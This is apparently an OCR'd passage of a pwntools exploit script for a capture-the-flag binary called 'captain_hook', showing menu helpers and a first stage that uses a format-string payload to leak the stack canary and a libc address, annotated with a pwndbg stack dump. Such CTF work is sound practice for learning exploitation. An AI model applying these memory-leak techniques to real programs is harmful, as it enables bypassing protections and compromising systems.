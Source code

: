 ```python

def read(conn, index = 0):
    response = {
        'name': '',
        'age': 0,
        'date': '',
    }
    conn.sendlineafter(PROMPT, '3')
    conn.sendlineafter(' [ Character index ]: ', str(index))

    conn.recvuntil('Character name: ')
    response['name'] = conn.recvline().strip()

    conn.recvuntil('Age: ')
    response['age'] = int(conn.recvline())

    conn.recvuntil('He\'s been locked up on ')
    response['date'] = conn.recvline().strip()[:-1]  # Drop training fullstop

    return response

def edit(conn, name = 'AAAA', index = 0, age = 1, date = '12/12/2020'):
    conn.sendlineafter(PROMPT, '4')
    conn.sendlineafter(' [ Character index ]: ', str(index))
    conn.sendlineafter('  Name: ', name)
    conn.sendlineafter('  Age: ', str(age))
    conn.sendlineafter('  Date (mm/dd/yyyy): ', date)

# Start connection

r = remote(HOST, PORT)

# Stage 1: Leak canary and libc address

PAYLOAD = ('A' * 10) + '.%17$p.%19$p'

'''
──────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────
000000│ rbp rsp  0x7fffffffdca0 —▸ 0x7fffffffdcc0 —▸ 0x5555555553c0 (__libc_csu_init) ◂— push   r15
01:0008│          0x7fffffffdca8 —▸ 0x55555555535a (main+173) ◂— jmp    0x55555555538d
02:0010│          0x7fffffffdcb0 ◂— 0x300000000
03:0018│          0x7fffffffdcb8 ◂— 0xb45650d9e57dcf00 <== canary value, %17$p
04:0020│          0x7fffffffdcc0 —▸ 0x5555555553c0 (__libc_csu_init) ◂— push   r15
05:0028│          0x7fffffffdcc8 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax  <== libc address, %19$p
06:0030│          0x7fffffffdcd0 ◂— 0x1
07:0038│          0x7fffffffdcd8 —▸ 0x7fffffffdda8 —▸ 0x7fffffffe0d3 ◂— '/vagrant/challenges/sharky/captain_hook/captain_hook'
────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────
 ► f 0     555555554e89 read_character_infos+4
   f 1     55555555535a main+173
   f 2     7ffff7a05b97 __libc_start_main+231
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> canary
AT_RANDOM = 0x7fffffffe0b9 # points to (not masked) global canary value
Canary    = 0xb45650d9e57dcf00
'''

log.info('Payload: {}'.format(PAYLOAD))

```

 [ Character index ]: 0
 [ Character index ]: 0